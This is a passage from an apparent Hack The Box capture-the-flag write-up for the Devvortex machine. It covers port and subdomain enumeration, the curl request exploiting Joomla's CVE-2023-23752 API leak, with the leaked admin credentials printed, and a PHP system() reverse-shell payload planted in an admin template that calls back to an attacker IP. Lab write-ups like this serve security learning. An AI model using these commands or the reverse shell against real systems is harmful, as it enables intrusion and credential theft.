 # <center>Devvortex</center>
<p align="center"><img src="../.medias/devvortex/devvortex_logo.png"></p>

Hello everyone. Let's solve an easy labeled linux based HTB machine named Devvortex.

## Initial Step

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.242).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration

- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)

```bash
    nmap -A -T4 10.10.11.242

    # Nmap 7.94SVN scan initiated Mon Apr  1 15:14:52 2024 as: nmap -A -T4 -oN nmap_on_10.10.11.242 10.10.11.242
    Nmap scan report for 10.10.11.242
    Host is up (0.27s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://devvortex.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Apr  1 15:15:43 2024 -- 1 IP address (1 host up) scanned in 51.63 seconds

```
From the scan we can see normal port 80 -> http, it's domain `http://devvortex.htb` and 443 -> SSH, and  are open. Also it says, ngnix https server is running on port 80, but right now it is not accessible through the ip address. So let's add the ip and domain name in our /etc/hosts file.
![adding host file](../.medias/devvortex/editing_hosts_file.jpg
)


Navigating to the domain, we can see a simple static website, and nothing much of an interest. So I moved to my next step of enumerating directories and subdomains.

- <strong> Enumerating directories for `devvortex.htb` using <u>dirsearch</u> tool</strong>
    - ```bash
        dirsearch -u http://devvortex.htb

        # Dirsearch started Mon Apr  1 15:48:49 2024 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://devvortex.htb

        301   178B   http://devvortex.htb/js    -> REDIRECTS TO: http://devvortex.htb/js/
        200     7KB  http://devvortex.htb/about.html
        200     9KB  http://devvortex.htb/contact.html
        301   178B   http://devvortex.htb/css    -> REDIRECTS TO: http://devvortex.htb/css/
        403   564B   http://devvortex.htb/images/
        301   178B   http://devvortex.htb/images    -> REDIRECTS TO: http://devvortex.htb/images/
        403   564B   http://devvortex.htb/js/

        ```
    - So just some normal pages of static website, nothing interesting. Let's scan for some subdomains as well.

- <strong> Enumerating subdomains using <u>gobuster</u> tool</strong>
    - ```bash
        gobuster dns -d devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 50


        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Domain:     devvortex.htb
        [+] Threads:    50
        [+] Timeout:    1s
        [+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
        ===============================================================
        Starting gobuster in DNS enumeration mode
        ===============================================================
        Found: dev.devvortex.htb
        Progress: 19966 / 19967 (99.99%)
        ===============================================================
        Finished
        ===============================================================
        ```

- So, we just found a complete domain. Let's add this as well in out /etc/hosts file and examine the website.
- while navigating through the website manually, I got a robots.txt file.
![robots.txt file](../.medias/devvortex/robots_file.jpg)

- /administrator immediately caught my eyes, and it has a joomla login page. I researched about joomla and found these features from [wikipedia](https://en.wikipedia.org/wiki/Joomla).
    - Joomla is a framework (CMS)
    - written in PHP
    - uses Object-Oriented Programming technique
    - stores data in Structured Query Language (MySQL) database.

    So, I am pretty sure that my knowledge of PHP and MySQL may come in handy any time 😉.

- tried logging in fuzzing different default credentials for a moment, but it was useless. So i googled the ways to bypass the joomla authentication and luckily I came through [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce) in vulncheck.com. 

- following the direction I tried exploiting the vulnerability and got the credentials.

    - ```curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true```

    - ![api endpoint](../.medias/devvortex/api_endpoint.jpg)

    - user: lewis
    - password: P4ntherg0t1n5r3c0n##

- Using the credentials I got logged in.
    - ![logged in](../.medias/devvortex/loggedin.jpg
    )
Now my first intension was to get some place where I can inject some payloads to get get remode code execution(RCE). On navigating through different sections in the page, I came to a login.php file in system -> administrator templates -> atum files -> index.php. That php file could be used to run my payload and get a reverse shell. So I included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`system('bash -c "bash -i >& /dev/tcp/10.10.14.151/1234 0>&1"');`

![payload input section](../.medias/devvortex/payload_input_section.jpg)


    